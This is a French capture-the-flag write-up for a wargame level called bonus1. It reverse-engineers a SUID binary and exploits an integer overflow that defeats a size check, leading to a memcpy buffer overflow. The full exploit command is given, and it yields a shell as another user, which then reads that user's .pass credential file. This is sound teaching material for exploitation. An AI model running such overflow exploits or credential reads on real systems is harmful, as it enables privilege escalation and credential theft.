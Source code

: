 ## Analyse
- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
  [...]
  ```
  - On a un binaire appartenant a bonus2 dans le home avec les droits SUID.

- `./bonus1`
  ```
  Segmentation fault (core dumped)
  ```
  - Le programme segfault sans arguments

- `./bonus1 test`
  ```
  ```
  - Le programme se termine sans rien afficher

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `info function`
    ```
    [...]
      0x08048424  main
    [...]
    ```
    - On ne trouve rien d'autre que la fonction main

  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048424 <+0>:     push   ebp
       0x08048425 <+1>:     mov    ebp,esp
       0x08048427 <+3>:     and    esp,0xfffffff0
       0x0804842a <+6>:     sub    esp,0x40
       0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
       0x08048430 <+12>:    add    eax,0x4
       0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
       0x08048435 <+17>:    mov    DWORD PTR [esp],eax
       0x08048438 <+20>:    call   0x8048360 <atoi@plt>
       0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
       0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
       0x08048446 <+34>:    jle    0x804844f <main+43>
       0x08048448 <+36>:    mov    eax,0x1
       0x0804844d <+41>:    jmp    0x80484a3 <main+127>
       0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
       0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
       0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
       0x0804845d <+57>:    add    eax,0x8
       0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
       0x08048462 <+62>:    mov    edx,eax
       0x08048464 <+64>:    lea    eax,[esp+0x14]
       0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
       0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
       0x08048470 <+76>:    mov    DWORD PTR [esp],eax
       0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
       0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
       0x08048480 <+92>:    jne    0x804849e <main+122>
       0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
       0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
       0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
       0x08048499 <+117>:   call   0x8048350 <execl@plt>
       0x0804849e <+122>:   mov    eax,0x0
       0x080484a3 <+127>:   leave  
       0x080484a4 <+128>:   ret    
    End of assembler dump.
    ```

  - <+0> ... <+6>
    - Initialisation de la mémoire (libère 64 octets pour la stack), alignement de la stack<br/><br/>
  - <+9>...<+25>
    - Prépare les arguments pour l'appel de atoi
    - Stocke le pointeur de argv (ebp+0xc) dans eax
    - Ajoute 4 pour atteindre argv[1]
    - Transfert la valeur de argv[1] dans EAX
    - Transfert la valeur de argv[1] (EAX) dans ESP
    - Appel atoi avec argv[1] en argument
    - Stocke le retour dans esp+0x3c<br/><br/>
  - <+29>...<+34>
    - Compare le retour du atoi avec la valeur 9
    - Si la valeur est inferieur ou egale a 9 on jump a l'instruction <main+43><br/><br/>
  - <+36>...<+41>
    - Met la valeur 1 dans eax pour la préparation du return(1)
    - Jump à l'instruction <main+127><br/><br/>
  - <+43>...<+79>
    - Prepare les arguments pour l'appel de memcpy
    - Stocke le retour de atoi dans EAX
    - Multiplie le retour de atoi (EAX) par 4 et le stocke dans ECX
    - Stocke argv dans eax
    - Ajoute 8 a argv pour arriver sur argv[2]
    - Stocke la valeur argv[2] (EAX) dans EAX
    - Stocke argv[2] (EAX) dans EDX
    - Met la valeur d'un pointeur sur l'espace aloué au debut qui se situe a ESP+14.
      Qui fait que nous donnons un pointeur sur un char * d'une taille de 0x3c(retour de atoi)- 0x14 (adresse char*) = 40.
    - Stocke le retour d'atoi * 4 (ECX) en 3eme argument du memcpy
    - Stocke argv[2] (EDX) en 2eme argument du memcpy
    - Stocke le pointeur sur le char[40] en premier argument du memcpy
    - Appel memcpy(char[40], argv[2],  a*4)<br/><br/>
  - <+84>...<+92>
    - Compare le retour de atoi (ESP+0x3c) avec la valeur 1464814662
    - Si le retour du atoi n'est pas egale avec cette valeur jump a <main+122><br/><br/>
  - <+94>...<+117>
    - Prepare les arguments pour l'appel de execl
    - Stocke 0 en 3eme argument de execl qui est equivalent a NULL comme execl prends des char en argument
    - `x/10s 0x8048580`
      ```asm
      0x8048580:       "sh"
      0x8048583:       "/bin/sh"
      ```
    - Stocke "sh" en 2nd argument
    - Stocke "/bin/sh" en 1er argument
    - Appel execl("/bin/sh", "sh", NULL)<br/><br/>
  - <+122>...<+128>
    - Return 0
    - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
## Exploit

Après analyse, nous comprenons que pour obtenir notre flag il faut donner en input un nombre dont la valeur doit être inférieure ou égale à 9. Plus loin, cette valeur doit être égale a 0x574f4c46 (1464814662).

Nous voyons aussi que le memcpy() n'est pas protegé en effet notre string b fait 40, et si notre argv[2] fait plus de 40 nous avons un SegFault. 

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `r -2 $(python -c 'print "A" * 44')`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0xb7f65ef5 in ?? () from /lib/i386-linux-gnu/libc.so.6
    ```
  - `info registers`
    ```
    (gdb) info registers
    eax            0xbfffff8a       -1073741942
    ecx            0xfffffddc       -548
    edx            0xbffffd80       -1073742464
    ebx            0xb7fd0ff4       -1208152076
    esp            0xbffffbc8       0xbffffbc8
    ebp            0xbffffc18       0xbffffc18
    esi            0x0      0
    edi            0x0      0
    eip            0xb7f65ef5       0xb7f65ef5
    eflags         0x210282 [ SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    ```

b fait une taille de 40 et en reecrivant jusqu'a 44 nous réécrivons a.
Pour avoir notre shell notre a doit valoir 0x574f4c46 (1464814662), ca sera donc notre second argument:
```c
$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

Maintenant le souci que nous avons est que la taille copiée par notre memcpy est de maximum 9 * 4 = 36 mais de notre côté nous voulons copier une taille de 44.

Un nombre negatif multiplié par 4 donne toujours un nombre negatif, cependant nous sommes en presence d'integer et nous avons :

**INT_MIN**  = -2147483647 - 1<br/>
**INT_MAX** = 2147483647

La raison de cette difference est la présence d'un bit de signe et nous pouvons abuser de cette particularité pour avoir une valeur supérieure à int min ce qui va passer tous les bit a 1 dont le bit de signe: c'est un [integer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_d%27entier). 

Nous utilisons donc [le code python suivant](https://stackoverflow.com/questions/47100105/forcing-integer-overflow-in-python) pour forcer le cast en int et trouver la valeur avec laquelle nous obtenons un integer overflow pour avoir la valeur 44.
```python
>>> print((-2147483637*4) % 2**32)
44
```

- `./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`
  ```
  ```
  - `whoami`
    ```
    bonus2
    ```
  - `cat /home/user/bonus2/.pass`
    ```
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```
